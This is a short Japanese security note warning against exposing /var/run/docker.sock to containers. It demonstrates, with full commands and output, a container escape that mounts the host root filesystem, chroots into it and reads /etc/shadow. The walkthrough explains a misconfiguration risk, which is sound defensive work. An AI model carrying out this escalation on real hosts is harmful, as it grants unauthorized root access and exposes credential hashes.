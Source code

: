 
# /var/run/docker.sockを公開してはいけない
/var/run/docker.sockはdockerdと通信するためのunixソケットである。コンテナからホストOSの/var/run/docker.sockに書き込み権限があるとホストOSのrootに権限昇格が可能になる。

/var/run/docker.sockをマウントしてコンテナを起動する。
```shell
$docker container run --rm -v /var/run/docker.sock:/var/run/docker.sock -it alpine:latest /bin/sh
```
コンテナにdockerをインストールする。
```
/ # apk update && apk add docker
fetch http://dl-cdn.alpinelinux.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.12/community/x86_64/APKINDEX.tar.gz
v3.12.0-216-gaf4199bc57 [http://dl-cdn.alpinelinux.org/alpine/v3.12/main]
v3.12.0-213-gfedcac4c0f [http://dl-cdn.alpinelinux.org/alpine/v3.12/community]
OK: 12749 distinct packages available
(1/12) Installing ca-certificates (20191127-r4)
(2/12) Installing libseccomp (2.4.3-r0)
(3/12) Installing runc (1.0.0_rc10-r1)
(4/12) Installing containerd (1.3.4-r1)
(5/12) Installing libmnl (1.0.4-r0)
(6/12) Installing libnftnl-libs (1.1.6-r0)
(7/12) Installing iptables (1.8.4-r1)
(8/12) Installing tini-static (0.19.0-r0)
(9/12) Installing device-mapper-libs (2.02.186-r1)
(10/12) Installing docker-engine (19.03.12-r0)
(11/12) Installing docker-cli (19.03.12-r0)
(12/12) Installing docker (19.03.12-r0)
Executing docker-19.03.12-r0.pre-install
Executing busybox-1.31.1-r16.trigger
Executing ca-certificates-20191127-r4.trigger
OK: 307 MiB in 26 packages
```

コンテナ上で`docker container ls`してみると自分自身がコンテナであることがわかる。
```
/ # docker container ls
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
50bf098512e5        alpine:latest       "/bin/sh"           5 minutes ago       Up 5 minutes                            lucid_williamson
/ # cat /etc/hostname
50bf098512e5
/ # 

```

新たにコンテナを起動して、`chroot`する。
```
/ # docker container run --rm -v /:/host -it alpine /bin/sh
/ # chroot /host
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2367afbcff80:/# docker container ls
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
2367afbcff80        alpine              "/bin/sh"           53 seconds ago      Up 51 seconds                           dazzling_feynman
50bf098512e5        alpine:latest       "/bin/sh"           11 minutes ago      Up 11 minutes                           lucid_williamson
root@2367afbcff80:/# cat /etc/hostname
＜ホストOSのホスト名が返る＞
root@2367afbcff80:/# cat /etc/shadow
```

これでホストOS側のroot権限で/ディレクトリをマウントできている状態になるため、`/etc/shadow`ファイルなども閲覧可能になる。